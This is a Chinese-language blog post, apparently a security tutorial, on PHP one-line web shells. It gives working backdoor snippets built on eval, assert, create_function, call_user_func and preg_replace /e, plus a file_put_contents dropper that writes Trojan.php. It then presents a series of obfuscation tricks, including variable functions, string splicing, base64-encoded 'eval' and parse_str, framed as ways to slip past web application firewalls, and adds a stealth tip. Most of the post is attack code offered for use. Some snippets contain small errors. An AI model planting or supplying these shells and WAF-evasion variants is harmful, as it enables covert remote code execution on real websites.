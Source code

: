 ```yaml
---
layout: post
title: "[PHP]一句話木馬"
date: 2018-12-18 08:25:20 +0800
categories: [php,web,security]
tags: [php,web,security]
---
```


## 什麼是一句話木馬

**一句話木馬就是只需要一行代碼的木馬，短短一行代碼，就能做到和大馬相當的功能。為了繞過waf的檢測，一句話木馬出現了無數中變形，但本質是不變的：木馬的函數執行了我們發送的命令。**

**我們如何發送命令，發送的命令如何執行？
我們可以通過`GET` 、`POST` 、`COOKIE`這三種方式向一個網站提交數據，一句話木馬用`$_GET[' ']`、`$_POST[' ']`、`$_COOKIE[' '] `接收我們傳遞的數據，並把接收的數據傳遞給一句話木馬中執行命令的函數，進而執行命令。
所以看到的經典一句話木馬大多都是只有兩個部分，一個是可以執行代碼的函數部分，一個是接收數據的部分。**
例如：
```php=
<?php eval(@$_POST['a']); ?>
```
其中eval就是執行命令的函數，`$_POST['a']`就是接收的數據。 eval函數把接收的數據當作PHP代碼來執行。這樣我們就能夠讓插入了一句話木馬的網站執行我們傳遞過去的任意PHP語句。這便是一句話木馬的強大之處。

---

### **使用 其他函數製作一句話木馬**

#### **assert函數**
```php=
<?php assert(@$_POST['a']); ?>
```
---

#### **create_function函數**
```php=
<?php
$fun = create_function('',$_POST['a']);
$fun();
?>
```

把用戶傳遞的資料形成一個函數fun()，然後再執行fun()

---

#### **call_user_func回調函數**
```php=
<?php
@call_user_func(assert,$_POST['a']);
?>
```

`call_user_func`這個函數可以呼叫其它函數，被呼叫的函數是`call_user_func`的第一個函數，被呼叫的函數的參數是`call_user_func`的第二個參數。
<br />
這樣的一個語句也可以完成一句話木馬。一些被waf攔截的木馬可以配合這個函數繞過waf。

---

#### **preg_replace函數**
```php=
<?php
@preg_replace("/abcde/e", $_POST['a'], "abcdefg");
?>
```

這個函數原本是利用正則表達式替換符合條件的字符串，但是這個函數有一個功能——可執行命令。這個函數的第一個參數是正則表達式，按照PHP的格式，表達式在兩個"/"之間。如果我們在這個表達式的末尾加上"e"，那麼這個函數的第二個參數就會被當作代碼執行。

---

#### **file_put_contents函數**

#### 利用函數生成木馬

```php=
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
```
函數功能：產生一個文件，第一個參數是文件名，第二個參數是文件的內容。

---

### 讓一句話木馬繞過waf


#### **PHP變數函數**
```php=
<?php
$a = "eval";
$a(@$_POST['a']);
?>
```
第三行使用了變數函數$a，變數儲存了函數名eval，便可以直接用變數替代函數名。

---

#### **PHP可變變數**
```php=
<?php
$bb="eval";
$a="bb";
$$aa($_POST['a']);
?>
```

看這句就能理解上述語句：`$$aa = $($aa) = $ (‘bb’) = $bb = "eval"`

---

#### **str_replace函數**
```php=
<?php
$a=str_replace("Waldo", "", "eWaldoval");
$a(@$_POST['a']);
?>
```

函數功能：在第三個參數中，查找第一個參數，並替換成第二個參數。這裡第二個參數為空字符串，就相當於刪除"Waldo"。

---

#### **base64_decode函數**
```php=
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

這裡是base64解密函數，"ZXZhbA=="是eval的base64加密。

---

### **"."操作符號**
```php=
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```
---

### **parse_str函數**
```php=
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>
```
執行這個函數後，生成一個變數$a，值為字符串"eval"

---

### **更多技巧...**
`多實戰，多Google！`

上述六種技巧每一種單獨使用都不能繞過waf，但是與 第三大點提到的函數混合起來使用，就可以順利的欺騙waf。
`tips：使用一句話木馬的時候可以在函數前加”@”符，這個符號讓php語句不顯示錯誤信息，增加隱蔽性。`

---

### **再來一個小栗子**
```php=1
<?php
function fun()
{
	return $_POST['a'];
}
	@preg_replace("/test/e",fun(),"test test test");
?>
```
這裡又有一個技巧，創建函數 fun()，返回post中"a"的數據。

資料來源<br />
[PHP之一句話木馬](https://xz.aliyun.com/t/2786)
